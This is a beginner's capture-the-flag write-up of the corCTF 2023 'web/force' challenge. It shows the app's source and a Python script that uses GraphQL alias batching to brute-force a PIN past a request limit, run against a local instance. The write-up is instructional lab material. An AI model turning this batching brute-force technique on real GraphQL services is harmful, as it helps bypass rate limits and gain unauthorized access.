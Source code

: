 # corCTF 2023

## Background
corCTF 2022 was a CTF event organized by Crusader of Rust team and was held from Sat, 29 July 2023, 12:00 UTC — Mon, 31 July 2023, 12:00 UTC. There are a total of 39 challenges, with catrgories made up of reverse engineering, web, pwn, crypto and blockchain. Being a novice in CTF and cybersecurity in general, I only managed to complete 1 challenge, which is Force under the web category.

## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```Dockerfile
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .
docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d    
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![main_page](img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![first_try](img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying[^1] where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination[^2]. I then look to the `web.js` for more information of the app.

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});

const index = await readFile('./index.html', 'utf-8');
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag: 
> corctf{S                T                  O               N                   K                 S}

## Fin
Even though I only managed to solve 1 challenge, it is a fun experience and I learned a lot from it. I'm looking forward to learn more about cybersecurity and much looking forward to next year's corCTF. Thank you for reading.

[^1]: https://graphql.org/learn/queries/#aliases 
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
